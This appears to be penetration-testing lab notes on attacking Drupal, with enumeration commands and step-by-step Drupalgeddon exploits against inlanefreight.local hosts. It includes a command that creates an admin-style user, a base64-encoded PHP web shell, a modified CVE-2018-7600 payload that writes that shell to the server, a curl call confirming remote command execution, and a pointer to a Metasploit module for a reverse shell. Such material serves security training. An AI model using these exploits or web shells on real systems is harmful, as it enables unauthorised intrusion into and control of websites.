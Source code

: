### Enumeration

```bash
curl -s http://drupal-acc.inlanefreight.local/CHANGELOG.txt | grep -m2 ""
```

```bash
curl -s http://drupal.inlanefreight.local/CHANGELOG.txt
```

```bash
droopescan scan drupal -u http://drupal.inlanefreight.local
```
### Attack

## Drupalgeddon

Adds a new user for version 7.31 and below

- Download exploit: https://www.exploit-db.com/exploits/34992

```bash
python2.7 34992.py -t http://drupal-qa.inlanefreight.local -u hacker -p pwnd
```
## Drupalgeddon2

Affects Druple < 8.3.9 / < 8.4.6 / < 8.5.1

- Download exploit: https://www.exploit-db.com/exploits/44448
- Modify exploit as you see fir

E.g.:

```bash
echo '<?php system($_GET[cmd]);?>' | base64
PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOz8+Cg==
```

Update exploit:

```bash
payload = {'form_id': 'user_register_form', '_drupal_ajax': '1', 'mail[#post_render][]': 'exec', 'mail[#type]': 'markup', 'mail[#markup]': 'echo "PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOz8+Cg==" | base64 -d | tee shell.php'}
```

Run Exploit:

```bash
python3 44448.py 
################################################################
# Proof-Of-Concept for CVE-2018-7600
# by Vitalii Rudnykh
# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders
# https://github.com/a2u/CVE-2018-7600
################################################################
Provided only for educational or information purposes

Enter target url (example: https://domain.ltd/): http://drupal-dev.inlanefreight.local/

Check: http://drupal-dev.inlanefreight.local/shell.php
```

RCE:

```bash
curl -s http://drupal-dev.inlanefreight.local/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
## Drupalgeddon3

Use the Metasploit module `multi/http/drupal_drupageddon3`. For this we need to use the `
`drupal_session` which can be obtained from a valid login session. From there, it is possible to obtain a reverse shell.

